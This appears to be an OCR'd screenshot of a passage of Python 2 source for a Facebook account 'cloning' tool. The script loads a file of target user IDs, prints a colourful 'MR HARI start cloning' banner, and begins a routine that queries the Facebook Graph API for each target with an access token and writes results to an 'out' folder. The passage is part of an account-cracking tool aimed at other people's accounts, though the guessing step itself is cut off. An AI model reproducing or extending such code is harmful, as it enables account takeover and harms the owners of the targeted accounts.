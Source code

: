 		try:

			idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter the file name \x1b[1;91m: \x1b[1;97m')

			for line in open(idlist,'r').readlines():

				id.append(line.strip())

		except IOError:

			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'

			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')

			super()

	elif peak =="0":

		menu()

	else:

		print "\x1b[1;91mFill in correctly"

		pilih_super()

	

	print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))

	jalan('\033[1;34;40m[✺] Please Wait...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"

	print "   \033[1;31;48m●😊════════════════════════◄►════════════════════════🙈●"

	jalan('                    \033[1;91mMR HARI start cloning Wait...')

	print  "  \033[1;36;48m ●😊════════════════════════◄►════════════════════════🙈●" 

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass 

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)
